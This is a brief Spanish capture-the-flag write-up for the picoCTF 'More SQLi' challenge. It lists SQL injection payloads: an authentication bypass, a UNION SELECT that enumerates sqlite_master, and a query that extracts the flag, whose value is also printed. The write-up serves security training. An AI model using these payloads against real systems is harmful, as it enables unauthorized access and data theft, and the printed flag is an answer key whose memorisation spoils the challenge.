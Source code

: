 **Reto:** More SQLi

**Descripción:**
¿Puedes encontrar la bandera en este sitio web?

Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.

**Solución:**
username:
admin
password:
'or 1=1;--'

' UNION SELECT name, sql, null from sqlite_master;--
' UNION SELECT flag, null, null from more_table;--

| If you are here, you must have seen it                  |     |
| ------------------------------------------------------- | --- |
| picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477} |     |
**Notas adicionales:**

**Referencias:** 
https://youtu.be/clMe4yqL6yU?si=AcAOiIJ_MQ5NOyLD
